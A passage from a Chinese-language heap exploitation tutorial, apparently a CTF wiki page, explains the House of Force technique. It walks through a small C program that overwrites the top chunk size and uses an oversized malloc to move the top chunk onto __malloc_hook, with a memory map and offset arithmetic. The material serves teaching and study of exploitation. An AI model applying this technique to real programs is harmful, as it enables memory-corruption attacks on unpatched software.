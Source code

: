 但是需要注意的是，在被抬高的同时，malloc@got 附近的内容也会被修改。

```c
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
```

## 简单示例2
在上一个示例中，我们演示了通过 HOF 使得 top chunk 的指针减小来修改位于其上面(低地址)的got表中的内容，
但是 HOF 其实也可以使得 top chunk 指针增大来修改位于高地址空间的内容，我们通过这个示例来演示这一点

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```
我们可以看到程序代码与简单示例1基本相同，除了第二次 malloc 的 size 有所不同。
这次我们的目标是 malloc_hook，我们知道 malloc_hook 是位于 libc.so 里的全局变量值，首先查看内存布局

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/t1
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/t1
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/t1
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```
可以看到 heap 的基址在 0x602000，而 libc 的基址在 0x7ffff7a0d000，因此我们需要通过 HOF 扩大 top chunk指针的值来实现对 malloc_hook 的写。
首先，由调试得知 __malloc_hook 的地址位于 0x7ffff7dd1b10 ，采取计算

0x7ffff7dd1b00-0x602020-0x10=140737345551056
经过这次 malloc 之后，我们可以观察到 top chunk 的地址被抬高到了 0x00007ffff7dd1b00
